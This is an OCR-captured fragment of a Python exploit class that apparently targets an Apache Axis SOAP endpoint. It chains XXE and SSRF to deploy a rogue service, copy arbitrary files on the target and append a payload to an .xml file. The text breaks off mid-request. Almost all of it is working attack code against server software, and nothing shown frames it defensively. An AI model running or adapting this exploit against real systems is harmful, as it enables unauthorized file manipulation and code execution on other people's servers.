 ```py
        if not self.service_check():
            raise RuntimeError('Unable to deploy service')

        o('+', 'Service deployed')

    def service_undeploy(self):
        if not self.local_port:
            return

        self.xxe_ssrf(self.soap_service_undeploy())

        if self.service_check():
            o('-', 'Unable to undeploy service')
            return

        o('+', 'Service undeployed')

    def service_send(self, data):
        """Send data to the Axis endpoint.
        """
        return self.post(
            '/pspc/services/%s' % self.service_name,
            data=data,
            headers={
                'SOAPAction': 'useless',    # 这个头必须带，值是什么无所谓
                'Content-Type': 'application/xml'
            }
        )

    def service_copy(self, path0, path1):
        """Copies one file to another.
        """
        data = """
        <?xml version="1.0" encoding="utf-8"?>
        <soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xmlns:api="http://127.0.0.1/Integrics/Enswitch/API"
        xmlns:xsd="http://www.w3.org/2001/XMLSchema"
        xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
        <soapenv:Body>
        <api:copy
        soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
            <in0 xsi:type="xsd:string">%s</in0>
            <in1 xsi:type="xsd:string">%s</in1>
        </api:copy>
        </soapenv:Body>
        </soapenv:Envelope>
        """.strip() % (path0, path1)
        response = self.service_send(data)
        return '<ns1:copyResponse' in response.text

    def service_main(self, tmp_path, tmp_dir):
        """Writes the payload at the end of the .xml file.
        """
        data = """
        <?xml version="1.0" encoding="utf-8"?>
        <soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xmlns:api="http://127.0.0.1/Integrics/Enswitch/API"
        xmlns:xsd="http://www.w3.org/2001/XMLSchema"
        xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
        <soapenv:Body>
        <api:main
        soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
            <api:in0>
```